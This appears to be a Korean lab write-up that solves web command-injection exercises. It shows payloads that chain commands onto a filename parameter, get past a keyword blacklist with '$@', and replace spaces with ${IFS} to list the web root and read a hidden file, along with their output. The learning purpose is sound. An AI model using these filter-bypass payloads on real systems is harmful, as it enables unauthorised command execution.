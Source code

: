 2. `filename`의 파라미터 값을 변경하여 확인
```bash
/commandi_ex2.php?filename=myfile1.html;whoami

File 1
```

1. 주로 사용되는 명령어를 제거하여 공격에 1차 방어를 한것으로 판단. -> 파라미터 값을 문자열을 우회하여 실행
```bash
/commandi_ex2.php?filename=myfile1.html;who$@ami;i$@d

File 1
www-data
uid=33(www-data) gid=33(www-data) groups=33(www-data)
```

## Exercise 3
| 이 문제를 해결하려면 웹 루트 디렉토리 안에 숨겨진 파일을 찾아 해당 파일의 내용을 확인해보세요. 당신은 숨겨진 파일을 찾기 위해 공백(Space) 문자를 사용해야 할 것입니다. 하지만 사용자 입력에 포함된 공백 문자와 공격에 주로 사용되는 명령어들(Exercise 2와 동일한 명령어들임)은 보안 필터에 의해 제거됩니다. 숨겨진 파일을 찾아 파일 내용을 웹 브라우저에 출력하세요.

1. submit을 눌러 파일이 어떤 데이터를 가지고 있는지 확인.
```bash
`/commandi_ex1.php?filename=myfile1.html`

File 1
```

2. 숨겨진 파일을 찾기 위해 공백을 써야하는데, 이를 활용하기 위해 IFS를 사용한다.
```bash
/commandi_ex3.php?filename=myfile1.html;%20l$@s${IFS}-al

File 1
total 52
drwxr-xr-x 3 root root 4096 Feb 21  2022 .
drwxr-xr-x 1 root root 4096 Oct 18  2021 ..
-rw-r--r-- 1 root root   47 Dec  8  2021 .hidden_file.txt
-rw-r--r-- 1 root root  949 Feb 21  2022 commandi_ex1.php
-rw-r--r-- 1 root root 1107 Dec  7  2021 commandi_ex2.php
-rw-r--r-- 1 root root 1289 Feb 21  2022 commandi_ex3.php
drwxr-xr-x 2 root root 4096 Dec  6  2021 css
-rw-r--r-- 1 root root   16 Dec  6  2021 footer.php
-rw-r--r-- 1 root root  897 Dec  6  2021 header.php
-rw-r--r-- 1 root root  754 Feb 21  2022 index.php
-rw-r--r-- 1 root root    7 Dec  7  2021 myfile1.html
-rw-r--r-- 1 root root    7 Dec  7  2021 myfile2.html
-rw-r--r-- 1 root root    7 Dec  7  2021 myfile3.html
``` 

3. 파일이름에는 블랙히스트 대상이 id 문자열이 있기 때문에 $@를 사용하여 우회하여 숨겨진 파일을 읽는다.
```bash
/commandi_ex3.php?filename=.hi$@dden_file.txt

Congratulations! You solved this exercise. :-)
```